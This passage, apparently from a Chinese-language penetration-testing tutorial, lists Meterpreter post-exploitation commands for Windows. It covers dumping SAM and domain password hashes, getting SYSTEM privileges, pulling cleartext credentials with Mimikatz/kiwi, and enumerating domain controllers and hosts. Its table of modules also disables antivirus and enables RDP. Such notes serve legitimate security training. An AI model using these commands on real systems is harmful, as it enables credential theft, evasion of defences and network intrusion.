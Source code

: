 在Meterpreter Shell提示符下输入 `hashdump` 命令，将导出目标机sam数据库中的Hash

```
hashdump
```

在非SYSTEM权限下远行 `hashdump` 命令会失败，而且在 Windows7、Windows Server2008下有时候会出现进程移植不成功等问题；而另一个模块 **`smart hashdumpe`** 的功能更为强大，可以导出域所有用户的Hash，其工作流程如下：

- 检查Meterpreter会话的权限和目标机操作系统类型
- 检查目标机是否为域控制服务器
- 首先尝试从注册表中读取Hash，不行的话再尝试注入LSASS进程

这里要注意如果目标机的系统是 Windows7，而目开启了UAC，获取Hash就会失败，这时需要先使用绕过UAC的后渗透攻击模块

```
run windows/gather/smart_hashdump
```



#### 使用Mimikatz抓取密码（新工具kiwi）

**Mimikatz必须在管理员权限下使用**，当前权限为Administrator，输入 `getsystem` 命令获取了系统权限

```
getsystem
```

查看系统情况

```
sysinfo
```

加载kiwi，直接命令查看所有

```
load kiwi
creds_all
```



### 探测域内存活主机

```
run windows/gather/enum_ad_computers
```



### 域控列表

```
run windows/gather/enum_domains
```



### Post 后渗透模块

| 命令                                                  | 作用                                                   |
| ----------------------------------------------------- | ------------------------------------------------------ |
| run post/windows/manage/migrate                       | 自动进程迁移                                           |
| run post/windows/gather/checkvm                       | 查看目标主机是否运行在虚拟机上                         |
| run post/windows/manage/killav                        | 关闭杀毒软件                                           |
| run post/windows/manage/enable_rdp                    | 开启远程桌面服务                                       |
| run post/windows/manage/autoroute                     | 查看路由信息                                           |
| run post/windows/gather/enum_logged_on_users          | 列举当前登录的用户                                     |
| run post/windows/gather/enum_applications             | 列举应用程序                                           |